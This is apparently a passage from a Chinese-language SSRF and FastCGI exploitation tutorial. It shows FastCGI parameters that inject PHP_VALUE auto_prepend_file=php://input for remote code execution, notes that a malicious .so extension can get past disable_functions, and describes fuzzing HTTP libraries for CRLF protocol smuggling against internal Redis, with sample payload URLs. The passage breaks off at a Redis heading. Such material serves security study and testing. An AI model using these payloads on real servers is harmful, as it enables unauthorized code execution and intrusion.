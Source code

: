```
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

找到一个已存在的PHP文件

设置 auto_prepend_file 为 php://input 且 allow_url_include = On，在执行任何php文件前都要包含一遍POST的内容，把待执行的代码放在Body中

或者 auto_prepend_file 为 自己的vps地址

######  绕过 disable_functions RCE

可以引入扩展 .so文件 ，hook函数，达到绕过 disable_functions 来RCE的效果

PHP_ADMIN_VALUE['extension'] = hack.so

生成 .so

####  攻击SYSLOG

可以写日志,这点略过



##  利用http协议

如果不打算从协议角度突破那就是可以利用出各种基于http协议web应用或者中间件或者服务，比如spring,zabbix等等

###  http protocol smuggle

思考一下，很多情况下，如果加入了starts with('http')，恰巧服务器内网在存在体态未授权的redis，我该怎么利用？除了可以利用302跳转，还可以想办法进行protocol smuggle，302跳转不在我们本次讨论的范围。我们考虑点应该是如何使用protocol smuggle，让http做其他协议能做的事情？

在实际场景中，不同语言利用自己的工具包发送http请求。比如python中用httplib，urllib，urllib2，requests，java中用net.URL，ruby会使用Net::HTTP等等。下面来针对此类发送http工具能否protocol smuggle执行fuzz，换言之是否能够利用http协议来做操作redis，ftp，mysql等等，这一个过程我们怎么去fuzz？。

####  思考

我该如何进行fuzz，这些需要捋清思路。根据RFC 3986规范，正常来说一个URL应该找这样。我们考虑在authority、path中插入%0D%0A或者其他字符看看能否达到protocol smuggle的标准。这部分可以写一个程序去fuzz，具体大家也可以自己实现一遍。Orange还在PPT提到，在NodeJs中，CLRF被过滤了，但是使用http://127.0.0.1:6379/ -*SLAVEOF @orange.tw@ 6379-*仍然能够进行protocol smuggle。

可以通过fuzz出不同语言http请求工具库解析造成的protocol smuggle，这部分知道思路之后可以自己写一个工具去fuzz，我只fuzz了python3下的urllib，fuzz出如下 %09 %0a %0d %20任意组合可以达到protocol smuggle的效果,我准备了0-167的ascii码作为字符组合进行fuzz，这个需要提到是开发用的tcp服务器需要用nio来写提高吞吐率。

其中fuzz到很多，下联列出两条

```
http://127.0.0.1:6379/%09%0aHost:baidu.com%09%0a=>http://127.0.0.1:6379/\t\nHost:baidu.com\t\n
http://127.0.0.1:6379/%20%09Host:baidu.com%20%09=>http://127.0.0.1:6379/ \tHost:baidu.com \t

```

####  攻击redis
